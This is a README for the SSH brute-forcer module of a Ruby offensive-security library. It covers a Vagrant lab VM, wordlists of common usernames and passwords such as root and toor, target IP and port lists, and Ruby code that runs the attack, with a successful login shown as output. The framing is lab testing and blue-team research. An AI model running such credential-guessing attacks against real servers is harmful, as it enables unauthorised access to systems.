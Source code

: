 # SSH Brute Forcer 

Using brute-force, you can easily try to force your way into a server over SSH.

## Vagrantfile

In this directory, along with the ruby code and the README.md, you'll find a `Vagrantfile` which you can use to setup a VM to test out the SSH Brute Forcer. This requires you to have [vagrant](https://www.vagrantup.com/) installed.

#### Start VM

```shell
$ pwd 
/somewhere/violent_ruby/lib/violent_ruby/ssh_brute_forcer
$ ls
README.md           Vagrantfile         ssh_brute_forcer.rb
$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Importing base box 'debian/jessie64'...
==> ect...
```

#### SSH into VM

Very simply `vagrant ssh` will allow you to SSH into the VM to make changes or monitor the VM while brute-forcing it for blue team research.

```shell
$ vagrant ssh

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
vagrant@jessie:~$ 
```

The VM should be provisioned with ssh, and it should be running with anonymous access turned on. Because that's fun.

#### Stop VM

If you've logged into the VM via ssh, logout and then use `vagrant destroy` to destroy the VM.

```shell
$ vagrant destroy
    default: Are you sure you want to destroy the 'default' VM? [y/N] y
==> default: Forcing shutdown of VM...
==> default: Destroying VM and associated drives...
```

## Initialization

```ruby
require 'violent_ruby'

ssh = SSHBruteForcer.new
```

## Providing Required Files

```ruby
require 'violent_ruby'

ssh = SSHBruteForcer.new

ssh.users     = "resources/ssh_users.txt"
ssh.ports     = "resources/ssh_ports.txt"
ssh.ips       = "resources/ssh_ips.txt"
ssh.passwords = "resources/ssh_passwords.txt"
```

#### Users

A `.users` file should contain a list of ssh usernames to use.

```
vagrant
root
admin
picat
```

#### Passwords

A `.passwords` file should contain a list of ssh passwords to use.

```
vagrant
root
toor
picat
```

#### IPs

A `.ips` file should contain a list of ip addresses to attempt connections on.

```
192.168.33.9
192.168.33.10
192.168.33.111
```

#### Ports

A `.ports` file should contain a list of ports to attempt connections on.

```
22
2222
```
## Brute Force'n

Once everything has been setup, we're going to be able to try start brute forcing!

```ruby
require 'violent_ruby'

ssh = SSHBruteForcer.new

ssh.users     = "resources/ssh_users.txt"
ssh.ports     = "resources/ssh_ports.txt"
ssh.ips       = "resources/ssh_ips.txt"
ssh.passwords = "resources/ssh_passwords.txt"

# Iterate through results.
ssh.brute_force do |result|
  result
  # => [{:time=>2017-04-03 19:02:11 -0400, :type=>"SUCCESS", :ip=>"192.168.33.10", :port=>"22", :user=>"vagrant", :password=>"vagrant"},
end
```
